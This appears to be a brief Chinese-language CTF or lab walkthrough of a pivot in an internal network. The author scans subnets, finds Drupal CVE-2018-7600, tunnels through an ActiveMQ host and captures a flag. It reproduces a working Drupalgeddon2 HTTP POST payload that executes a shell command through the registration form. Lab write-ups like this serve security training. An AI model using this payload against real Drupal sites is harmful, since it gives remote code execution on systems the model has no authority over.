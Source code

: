 ```
172.16.100.70/24
10.10.10.70/24
```

  
  
直接开扫  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14A1PLRxqnbQ1okxF7Y9mSzfic6Hic7YAMhkUC8tFqmkpc5lX8bcZd1OHg/640?wx_fmt=png&from=appmsg "")  
  
  
注意到  
  

```
http://172.16.100.30 poc-yaml-drupal-cve-2018-7600-rce drupal8
```

  
  
对activemq此服务器进行一个隧道代理  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14DlDJ5xmlaqYlOIz6Lqrjv6kENaoROFINHz0NIj72ro4hYZbib8ib41xA/640?wx_fmt=png&from=appmsg "")  
  
  
然后，直接bp配置好后进行访问  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14HrDlhDkknrtx6yENa8n3EIBFIEiakVWY7WHdwqrAoS91AcTBF9nSthA/640?wx_fmt=png&from=appmsg "")  
  
  
在对cve进行搜索  
  
  
此处借用freebuf上的poc  
  
  
https://www.freebuf.com/vuls/268189.html  
  

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: xxxx
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14cupKnBLkibVhxBIkTqZYAJich9rTDBVVyjKHoYtaBIvE2Xic1e7BMpmeg/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行，直接看根目录  
  

```
flag3{023d904d-e16b-42ac-a52b-63b88fac702b}
```
